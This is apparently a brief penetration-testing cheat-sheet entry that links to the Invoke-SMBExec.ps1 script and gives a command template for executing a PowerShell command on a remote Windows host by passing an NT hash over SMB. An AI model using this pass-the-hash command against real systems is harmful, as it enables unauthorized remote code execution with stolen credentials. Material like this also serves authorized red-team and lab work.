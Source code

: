 ### source
https://raw.githubusercontent.com/Kevin-Robertson/Invoke-TheHash/master/Invoke-SMBExec.ps1  

### run command remotely
```
Invoke-SMBExec -Target <rhost> -Domain <domain> -User <user> -Command "powershell -c <command>" -Hash <nthash>
```

